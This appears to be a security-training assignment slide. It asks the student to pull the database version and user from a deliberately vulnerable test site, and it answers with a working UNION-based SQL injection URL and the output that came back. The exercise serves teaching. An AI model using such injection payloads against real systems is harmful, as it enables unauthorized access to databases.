

# Assignment#13
Visit http://testphp.vulnweb.com/artists.php?artist=1
Can you find out the database version & username
[hint: try union statement & select statement]

http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,version(),current_user()
Here we have retrieve 5.1.73 0ubuntu0 10.04.1 as version and acuart@localhost as the current user